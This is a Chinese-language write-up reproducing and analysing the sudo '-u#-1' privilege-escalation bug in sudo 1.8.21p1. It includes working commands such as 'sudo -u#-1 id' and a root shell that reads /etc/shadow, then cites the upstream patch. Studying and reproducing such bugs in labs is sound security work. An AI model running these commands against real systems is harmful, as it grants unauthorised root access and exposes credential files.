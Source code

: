这个漏洞复现比较简单，所以先复现再分析吧~ 首先要配置漏洞环境来进行测试，在此之前添加一个测试账户 testtest，另外，sudo 版本依然为 1.8.21p1。然后在 / etc/sudoers 文件中加入 testtest ALL=(ALL, !root) /usr/bin/id，这样允许 testtest 用户可以以除了 root 用户之外的任意用户的身份来运行 id 命令。

正常情况下，testtest 用户可以直接执行 id 命令，也可以用其它用户身份（除 root 外）执行 id 命令。

```
testtest@ubuntu:/home/strawberry$ id
uid=1001(testtest) gid=1001(testtest) groups=1001(testtest)
testtest@ubuntu:/home/strawberry$ sudo -u#1111 id
[sudo] password for testtest:       
uid=1111 gid=1001(testtest) groups=1001(testtest)

testtest@ubuntu:/home/strawberry$ sudo -u root id
Sorry, user testtest is not allowed to execute '/usr/bin/id' as root on ubuntu.
testtest@ubuntu:/home/strawberry$ sudo -u#0 id
Sorry, user testtest is not allowed to execute '/usr/bin/id' as root on ubuntu.


```

而如果 testtest 用户指定以 ID 为 - 1 或 4294967295 的用户来运行 id 命令，则会以 root 权限来运行。这是因为 sudo 命令本身就已经以用户 ID 为 0 运行，因此当 sudo 试图将用户 ID 修改成 -1 时，不会发生任何变化。并且 sudo 日志条目将该命令报告为以用户 ID 为 4294967295 而非 root 运行命令。此外，由于通过–u 选项指定的用户 ID 并不存在于密码数据库中，因此不会运行任何 PAM 会话模块。

```
testtest@ubuntu:/home/strawberry$ sudo -u#-1 id
uid=0(root) gid=1001(testtest) groups=1001(testtest)
testtest@ubuntu:/home/strawberry$ sudo -u#4294967295 id
uid=0(root) gid=1001(testtest) groups=1001(testtest)


```

另外，如果文件中配置了 testtest ALL=(ALL, !root) /usr/bin/vi 这种语句，可能使该用户获取使用机密文件的权限，如 / etc/shadow。如果配置了 testtest ALL=(ALL, !root)ALL，testtest 用户将会获得 root 权限（这种配置应该很少出现的吧）：

```
testtest@ubuntu:/home/strawberry$ sudo -u#-1 sh
[sudo] password for testtest:       
# id
uid=0(root) gid=1001(testtest) groups=1001(testtest)
# cat /etc/shadow 
root:!:18283:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
...


```

漏洞分析
----

从漏洞补丁 [https://github.com/sudo-project/sudo/commit/f752ae5cee163253730ff7cdf293e34a91aa5520](https://github.com/sudo-project/sudo/commit/f752ae5cee163253730ff7cdf293e34a91aa5520) 关于 - 1 的处理改动，下面这两段代码位于 lib/util/strtoid.c 中的 sudo_strtoid_v1 函数（分别为处理 64 位和 32 位的两个函数），补丁加入了对 -1 和 UINT_MAX（4294967295）的判断，如果不是才会放行。
